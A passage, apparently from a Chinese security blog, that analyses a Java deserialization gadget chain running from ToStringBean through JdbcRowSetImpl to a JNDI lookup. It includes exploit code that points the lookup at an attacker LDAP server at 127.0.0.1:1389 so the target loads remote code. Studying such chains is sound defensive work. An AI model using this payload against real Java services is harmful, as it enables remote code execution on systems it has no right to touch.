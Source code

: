 ### 详细分析

这条链的组合是前半部分不变，修改后半部分，即替换前面的 TemplatesImpl 为 JdbcRowSetImpl，后面的链就会发生变化

同样在 ToStringBean 的 toString 方法中，会调用 getPropertyDescriptors 来获得 JdbcRowSetImpl 的所有公开的 get 方法，然后逐个使用 invoke 调用  
而在 JdbcRowSetImpl 链中的关键是调用 getDatabaseMetaData 方法  
[![](assets/1705886615-4ea04b0a58e5df81f9b401ff9d9a1469.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124955-5b639a46-b74f-1.png)

在 JdbcRowSetImpl 的 getDatabaseMetaData 方法中会调用 connect 方法

```plain
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

进入 connect 方法，会调用 lookup 函数，所以这里的 getDataSourceName 的返回值非常关键，需要是可以利用的 ldap 链接，所以在 exp 中进行如下设置

```plain
// ldap url
String url = "ldap://127.0.0.1:1389/nils4f";

// 创建 JdbcRowSetImpl 对象
JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
dataSource.setAccessible(true);
dataSource.set(jdbcRowSet, url);
```
